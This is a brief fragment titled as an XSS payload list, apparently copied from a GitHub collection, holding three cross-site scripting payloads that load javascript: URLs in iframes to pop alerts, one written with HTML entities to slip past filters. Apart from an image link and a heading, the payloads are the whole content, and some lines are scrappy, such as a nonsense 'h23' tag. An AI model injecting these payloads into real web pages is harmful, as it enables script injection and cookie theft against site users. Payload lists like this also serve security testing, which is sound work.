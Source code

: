 #### yyy Payload List :


https://github.com/ismailtasdelen/






<IFRAME SRC="javascript:alert('Window.document.cookie');"></IFRAME>
"><h23><IFRAME SRC="javascript:alert('xss');"></IFRAME>">2323</h23>

<iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>











